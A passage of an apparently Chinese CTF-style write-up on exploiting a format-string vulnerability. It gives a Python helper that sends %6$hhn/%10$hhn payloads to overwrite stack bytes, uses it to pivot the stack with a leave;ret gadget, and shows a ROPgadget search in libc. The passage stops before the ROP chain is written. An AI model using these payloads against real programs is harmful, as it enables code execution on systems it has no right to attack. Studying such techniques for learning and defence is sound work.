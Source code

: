 如图，我们通过%6$hhn来将10的位置的数据低字节覆盖，使得10的数据为12的地址，然后我们就可以通过%10$hhn来依次修改12的数据，当我们需要修改12的前一个字节时，只需再通过%6$hhn来改变10的数据，然后用%10$hhn来继续对12的前一个字节写。

1.  **def** write_i(sh,stack,index,addr):  
2.  i = 0  
3.  **while** addr > 0:  
4.  sh.recvuntil('TAG')  
5.  #设定栈顶向下第10个数据为stack+0x8*index  
6.  payload = '%' + str((stack + 0x8*index + i) & 0xFF) + 'c%**6**$hhnTAG'  
7.  sh.sendline(payload)  
8.  sh.recvuntil('TAG')  
9.  data = addr & 0xFF  
10.  payload = '%' + str(data) + 'c%**10**$hhnTAG'  
11.  sh.sendline(payload.ljust(0x12C-1,'\x00'))  
12.  addr = addr >> 8  
13.  i+=1  

然后，我们这样调用

1.  #我们修改main的rbp，做栈迁移  
2.  write_i(sh,stack,3,buf_addr)  
3.  #这次，我们写main的返回地址，也就是main ebp后面那个空间  
4.  write_i(sh,stack,4,leave_addr)  

其中leave_addr地址处是指令leave;retn，而leave指令相当于

1.  mov rsp,rbp  
2.  pop rbp  

![](img/dbf23db6ff4c4c035fc0111453feb458.png)

这样，当main函数执行到leave时，有

那么，ebp的值变成了我们的buf地址，但是esp还没有指向buf，于是，我们就在接下来的返回地址覆盖为leave_addr,让它再执行一次leave，那么有

现在，**rsp****指向了buf**,但是rbp变成buf[0]的数据，这没什么问题，因为，做栈迁移，我们只需保证rsp指向了指定位置即可，由于pop rbp，rsp要加8，也就是说，这里执行后，**rsp****指向了buf+8****处**，retn就会从buf+8处取出一个数据当成地址，跳到那个地址处去执行，因此，**我们只需在****buf+8****处写ROP****链即可**。

为了能够正常到达main的栈中rbp数据处，**我们需要复原****menu****在栈中的rbp****数据**

1.  #我们需要复原menu的rbp  
2.  payload = '%' + str((stack + 0x18) & 0xFF) + 'c%6$hhnTAG'  
3.  sh.sendline(payload)  

构造ROP时，有些gadget可能在程序二进制文件里没有，我们可以去libc.so.6中找找。只需利用ROPgadget工具即可

ROPgadget --binary libc.so.6  --only 'pop|ret' | grep 'rdx'

然后，我们就开始构造ROP链了
